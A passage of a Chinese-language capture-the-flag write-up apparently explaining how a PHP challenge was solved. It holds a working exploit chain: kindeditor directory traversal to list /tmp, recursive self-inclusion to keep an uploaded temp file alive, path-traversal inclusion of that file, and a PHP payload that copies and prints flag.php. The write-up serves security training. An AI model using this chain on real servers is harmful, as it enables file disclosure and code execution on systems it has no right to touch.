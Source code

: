 2.这题是利用php对POST上传文件临时保存，在/tmp路径下，文件名为php{0-9A-Za-z}的随机字符，如果文件被php文件本身用到了，则php直接使用/tmp里的这个临时文件，如果没用到或者处理完毕了，则将/tmp下的这个临时文件删除。
也就是说，在正常处理流程下，tmp目录下的这个文件存活周期是一次请求到响应，响应过后，它就会被删除，

因为kindeditor那里存在的目录遍历漏洞，导致我们可以查看tmp目录下的文件列表，我们也可以对任一php文件post一个文件过去，使其暂存于tmp目录下，问题就在于，我们还没来得及包含这个文件，它就会在这次请求结束后被删除掉。

通过无穷递归导致栈溢出，/X.php?include=X.php,使php无法进行此次请求的后续处理，也就是删除/tmp目录中我们通过post强行上传的临时文件。

3.本地新建一个post
```
<!DOCTYPE html> 
<html> 
<head lang="en"> 
  <meta charset="UTF-8"> 
  <title>上传文件</title> 
</head> 
<body> 
//上传的路径包含自己本身，形成无限循环
<form action="http://bc691d207104471d8f78e43b4730424107fd1e27245e401a.changame.ichunqiu.com/blog_manage/manager.php?module=manager&name=php" method="post" enctype="multipart/form-data"> 
  <input type="file" name="file"/> 
  <input type="submit" value="提交"> 
</form> 
</body> 
</html>
```

![image](http://note.youdao.com/yws/res/988/B41810D56FA046D0AB2F3D18CFF70BF4)

访问/kindeditor/php/file_manager_json.php?path=../../../../../tmp/可以看见临时文件php5IXvQg，浏览器访问/blog_manage/manager.php?module=../../../../../tmp/php5IXvQg&name=phpa，php后面必须加任意字符才能访问到，不清楚为什么

![image](http://note.youdao.com/yws/res/990/7C87F08968CB428E8EF74E8293467A4C)

4. 上传读取flag.php的文件

```
<?php
copy("/var/www/html/flag.php","/tmp/flag.txt");
show_source("/tmp/flag.txt");
//注意要用到show_source函数显示源码，否则会被解析，从下面也可以看到，flag的内容是在注释当中的
?>
```

为什么用copy而不是webshell，是因为在phpinfo里可以看见大部分函数都被禁用了

[大佬的博客1](https://blog.csdn.net/qq_30123355/article/details/58165038?depth_1-utm_source=distribute.pc_relevant.none-task-blog-BlogCommendFromMachineLearnPai2-4&utm_source=distribute.pc_relevant.none-task-blog-BlogCommendFromMachineLearnPai2-4)

[大佬的博客2](https://blog.csdn.net/weixin_43940853/article/details/104602695?depth_1-utm_source=distribute.pc_relevant.none-task-blog-BlogCommendFromMachineLearnPai2-6&utm_source=distribute.pc_relevant.none-task-blog-BlogCommendFromMachineLearnPai2-6)

## 
